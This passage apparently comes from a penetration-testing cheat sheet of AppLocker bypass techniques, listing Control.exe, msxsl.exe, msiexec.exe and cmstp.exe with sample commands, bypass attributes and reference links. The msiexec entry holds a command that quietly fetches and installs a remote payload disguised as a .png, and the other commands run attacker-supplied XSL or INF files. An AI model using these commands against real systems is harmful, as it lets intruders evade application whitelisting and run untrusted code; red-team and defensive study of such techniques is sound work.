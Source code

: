 
Control.exe


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:

* Links:
  * https://pentestlab.blog/2017/05/24/applocker-bypass-control-panel/
  * https://www.contextis.com/resources/blog/applocker-bypass-registry-key-manipulation/

--------------------------------------------------------------------------
 21. msxsl.exe


msxsl.exe customers.xml script.xsl


* Requires admin: No
* Windows binary: No
* Bypasses AppLocker Default rules: ?

Notes:

* Links:
  * https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/
  * https://gist.github.com/subTee/d9380299ff35738723cb44f230ab39a1
  * https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
  * https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/

--------------------------------------------------------------------------
 22. msiexec.exe


msiexec /quiet /i cmd.msi

msiexec /q /i http://192.168.100.3/tmp/cmd.png


* Requires admin: ?
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:

* Links:
  * https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/

--------------------------------------------------------------------------
 23. cmstp.exe


cmstp.exe /ni /s c:\cmstp\CorpVPN.inf


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?
